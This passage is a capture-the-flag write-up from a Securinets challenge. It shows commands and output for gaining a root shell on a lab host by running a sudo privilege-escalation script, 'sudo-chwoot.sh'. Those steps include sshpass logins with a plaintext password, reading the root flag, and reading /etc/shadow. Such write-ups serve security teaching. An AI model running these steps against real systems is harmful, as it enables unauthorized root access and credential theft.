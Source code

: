 ### Exploiting to Get Root Shell

**Method 1: Interactive Root Shell**

```bash
# SSH to target
ssh shopuser@172.19.4.10
# Password: SecurinetsShop2025!

# On target
shopuser@b0bbbb1eca83:~$ cd /tmp
shopuser@b0bbbb1eca83:/tmp$ chmod +x sudo-chwoot.sh
shopuser@b0bbbb1eca83:/tmp$ ./sudo-chwoot.sh
[*] Running exploit…

# You now have a root shell!
root@b0bbbb1eca83:/# id
uid=0(root) gid=0(root) groups=0(root)

root@b0bbbb1eca83:/# whoami
root
```

**Method 2: Execute Commands as Root**

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'bash -c "cd /tmp && chmod +x sudo-chwoot.sh && echo \"id\" | ./sudo-chwoot.sh"'
```

**Output:**
```
[*] Running exploit…
uid=0(root) gid=0(root) groups=0(root)
```

### Getting Root Flag

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'bash -c "cd /tmp && chmod +x sudo-chwoot.sh && echo \"cat /root/root.txt\" | ./sudo-chwoot.sh"' 2>&1 | grep -E "Securinets"
```

**Output:**
```
[*] Running exploit…
Securinets{Pr1v_3sc_Thr0ugh_Sud0_1_9_16p2}
```

🚩 **ROOT FLAG CAPTURED!**

### Full Root Access

```bash
# SSH to target
ssh shopuser@172.19.4.10
# Password: SecurinetsShop2025!

shopuser@b0bbbb1eca83:~$ cd /tmp
shopuser@b0bbbb1eca83:/tmp$ chmod +x sudo-chwoot.sh
shopuser@b0bbbb1eca83:/tmp$ ./sudo-chwoot.sh
[*] Running exploit…

root@b0bbbb1eca83:/# cat /root/root.txt
Securinets{Pr1v_3sc_Thr0ugh_Sud0_1_9_16p2}

root@b0bbbb1eca83:/# cat /etc/shadow | head -5
root:!:19916:0:99999:7:::
```